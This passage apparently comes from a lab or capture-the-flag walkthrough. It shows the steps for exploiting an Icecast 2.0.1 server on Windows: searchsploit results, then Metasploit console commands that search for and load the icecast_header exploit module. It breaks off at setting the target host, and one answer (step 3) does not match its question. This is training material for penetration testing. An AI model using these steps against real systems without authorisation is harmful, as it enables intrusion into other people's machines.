       Icecast 2.0.1 (Windows x86) - Header Overwrite (Metasploit)                                 | windows_x86/remote/16763.rb
      Icecast 2.x - XSL Parser Multiple Vulnerabilities                                           | multiple/remote/25238.txt
      icecast server 1.3.12 - Directory Traversal Information Disclosure                          | linux/remote/21602.txt
      -------------------------------------------------------------------------------------------- ---------------------------------
      Shellcodes: No Results
      Papers: No Results

      ```

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: 
      ```
      msf5 > use exploit/windows/http/icecast_header
      msf5 exploit(windows/http/icecast_header) > 
      ```


 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: 

      ```
      msf5 > search icecast

      Matching Modules
      ================

        #  Name                                 Disclosure Date  Rank   Check  Description
        -  ----                                 ---------------  ----   -----  -----------
        0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite

      ```
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: 

      ```
      msf5 > use 0
      msf5 exploit(windows/http/icecast_header) > 
      ```
 
 
5. Set the `RHOST` to the target machine.
 